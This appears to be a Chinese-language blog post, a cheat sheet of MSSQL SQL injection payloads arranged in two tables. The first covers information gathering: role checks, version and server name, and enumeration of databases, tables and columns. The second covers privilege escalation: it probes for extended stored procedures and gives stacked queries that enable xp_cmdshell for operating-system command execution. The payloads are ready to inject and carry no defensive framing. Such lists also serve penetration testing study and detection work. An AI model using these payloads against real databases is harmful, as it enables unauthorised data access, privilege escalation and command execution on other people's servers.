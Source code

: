 ```yaml
---
layout: default
category: Web安全
tags: [SQL注入]
---
```


## 1、信息收集

| 测试目的                                                 | 测试语句                                                     |
| -------------------------------------------------------- | ------------------------------------------------------------ |
| 判断是否是SQLserver                                      | and exists (select * from sysobjects)                        |
| 判断是不是sysadmin、public角色成员                       | and 1=(select IS_SRVROLEMEMBER('sysadmin'))                  |
| 判断是否是db_owner角色成员                               | and 1=(select is_member('db_owner'))                         |
| 判断是不是可以读取其它库如master(**public角色成员即可**) | and 1=(select has_dbaccess('master'))                        |
| 判断mssql版本                                            | and 1=(select @@version)                                     |
| 判断本地服务器名                                         | and 1=(select @@servername)                                  |
| 判断是否支持多行                                         | ;declare @d int                                              |
| 判断是否支持注释符--                                     | -- dsf                                                       |
| 判断是否支持注释符/**/                                   | /`*`hjkbhjg`*`/                                              |
| 判断是否支持子语句查询                                   | and (select count(1) from [sysobjects])>=0                   |
| 判断数据库名1                                            | and (select db_name())>0                                     |
| 判断数据库名2                                            | and (select top 1 name from master.dbo.sysdatabases where name not in (select top N name from master.dbo.sysdatabases order by dbid))>1)) |
| 判断表名                                                 | and (select top 1 name from sysobjects  where xtype='u' and  name not in  (select top N name from sysobjects where xtype='u'))>1 |
| 判断列名                                                 | and 1=0 union select * from (表名) having 1=1                |

## 2、存储提权

| 测试目的                                                     | 测试语句                                                     |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| 检测xp_cmdshell                                              | and 1=(select count(*) from master.dbo.sysobjects where name='xp_cmdshell') |
| 检测XP_REGREAD                                               | and 1=(select count(*) from master.dbo.sysobjects where name='xp_regread') |
| 检测SP_MAKEWEBTASK（备份功能，**2005中取消了**）             | and 1=(SELECT count(*) FROM master.dbo.sysobjects WHERE name= 'sp_makewebtask') |
| 检测SP_ADDEXTENDEDPROC（可拓展存储过程）                     | and 1=(SELECT count(*) FROM master.dbo.sysobjects WHERE name= 'sp_addextendedproc') |
| 检测XP_SUBDIRS（读子目录）                                   | and 1=(SELECT count(*) FROM master.dbo.sysobjects WHERE name= 'xp_subdirs') |
| 检测XP_DIRTREE（读子目录）                                   | and 1=(SELECT count(*) FROM master.dbo.sysobjects WHERE name= 'xp_dirtree') |
| 开启show advanced options（显示或修改高级选项）              | ;EXEC sp_configure 'show advanced options', 1;RECONFIGURE WITH OVERRIDE; |
| 开启XP_CMDSHELL（2005和2008默认关闭）（高级选项）            | ;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE WITH OVERRIDE; |
